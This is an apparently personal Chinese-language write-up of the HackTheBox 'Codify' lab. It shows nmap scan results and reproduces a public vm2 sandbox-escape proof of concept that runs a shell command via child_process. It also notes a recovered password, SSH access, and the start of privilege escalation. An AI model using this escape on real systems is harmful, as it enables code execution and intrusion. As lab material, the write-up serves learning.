





# Codify




```
NSOCK INFO [68.8280s] nsock_iod_delete(): nsock_iod_delete (IOD #40)
Nmap scan report for codify.htb (10.10.11.239)
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http
|_http-title: Codify
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 68.83 seconds

```

Express框架





看样子就是vm2的那个惊天大洞了


## [Proof of Concept](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244#proof-of-concept)

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```

打一打()


脚本小子开打~~~~~~







spongebob1

ssh 上号


然后提权 ，sudo -l 看到个 mysql-backup脚本